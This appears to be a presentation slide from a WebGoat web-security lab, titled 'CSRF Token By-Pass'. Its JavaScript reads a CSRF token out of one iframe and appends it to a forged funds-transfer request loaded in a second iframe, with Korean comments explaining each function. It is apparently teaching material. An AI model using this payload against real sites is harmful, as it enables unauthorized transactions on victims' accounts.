

CSRF Token By-Pass

<script language = "javascript">
var tokensuffix;
function readFrame1()
{
    var frameDoc = document.getElementById("frame1").contentDocument;
    var form = frameDoc.getElementsByTagName("form")[0];
    tokensuffix = '&CSRFToken=' + form.CSRFToken.value;

    loadFrame2();
}//Frame에서 Token값을 불러오는 함수이다.
function loadFrame2()
{
    var testFrame = document.getElementById("frame2");    testFrame.src="http://server.csec.local:8080/webgoat/attack?Screen=XXX&menu=YYY&transferFunds=5000" + tokensuffix;
}//Frame에서 불러온 Token값을 포함한 요청 url을 불러오는 함수이다.
</script>